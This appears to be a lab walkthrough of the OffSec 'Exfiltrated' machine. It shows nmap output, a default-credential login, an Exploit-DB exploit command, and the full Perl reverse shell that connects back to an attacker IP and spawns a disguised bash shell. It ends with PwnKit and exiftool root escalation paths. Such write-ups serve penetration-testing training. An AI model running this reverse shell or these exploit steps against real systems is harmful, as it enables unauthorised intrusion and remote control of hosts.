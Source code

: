 ```
nmap -sC -sV -p- 192.168.160.163                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 15:01 CDT
Nmap scan report for 192.168.160.163
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.77 seconds

```

Visiting the site reveals we need to add exfiltrated.offsec to hosts.

Robots.txt mentioned panel. Visiting that with admin:admin as credentials, this worked. Looked into an exploit and found the below.

https://www.exploit-db.com/exploits/49876

```
python 49876.py -l admin -p admin -u http://exfiltrated.offsec/panel/
```

I created this reverse shell after not finding python and only found perl.

```reverse.pl
#!/usr/bin/perl -w
# perl-reverse-shell - A Reverse Shell implementation in PERL
# Copyright (C) 2006 pentestmonkey@pentestmonkey.net
#
# This tool may be used for legal purposes only.  Users take full responsibility
# for any actions performed using this tool.  The author accepts no liability
# for damage caused by this tool.  If these terms are not acceptable to you, then
# do not use this tool.
#
# In all other respects the GPL version 2 applies:
#
# This program is free software; you can redistribute it and/or modify
# it under the terms of the GNU General Public License version 2 as
# published by the Free Software Foundation.
#
# This program is distributed in the hope that it will be useful,
# but WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
# GNU General Public License for more details.
#
# You should have received a copy of the GNU General Public License along
# with this program; if not, write to the Free Software Foundation, Inc.,
# 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
#
# This tool may be used for legal purposes only.  Users take full responsibility
# for any actions performed using this tool.  If these terms are not acceptable to
# you, then do not use this tool.
#
# You are encouraged to send comments, improvements or suggestions to
# me at pentestmonkey@pentestmonkey.net
#
# Description
# -----------
# This script will make an outbound TCP connection to a hardcoded IP and port.
# The recipient will be given a shell running as the current user (apache normally).
#

use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '192.168.45.216';
my $port = 4444;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
		# source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
	cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

	if ($auth) {
		unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
			cgiprint("ERROR: Your client isn't authorised to view this page");
			cgiexit();
		}
	}
} elsif ($auth) {
	cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
	cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
	my $pid = fork();
	if ($pid) {
		cgiexit(0); # parent exits
	}

	setsid();
	chdir('/');
	umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
	cgiprint("Sent reverse shell to $ip:$port");
	cgiprintpage();
} else {
	cgiprint("Couldn't open reverse shell to $ip:$port: $!");
	cgiexit();	
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/bash"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
	my $line = shift;
	$line .= "<p>\n";
	$global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
	cgiprintpage();
	exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
	print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}

```

Ran the reverse shell and got a call back. After checking over linpeas, I had a few options. I utilized PwnKit as this was the easiest route. 

Another solution is to utilize an exiftool exploit. This works because there is a cron job that runs and runs the command against anything placed in the uploads folder. I found that the version was exploitable using the following:

https://github.com/convisolabs/CVE-2021-22204-exiftool

This allows you to create a reverse shell in a file. It would then be a reverse shell as root.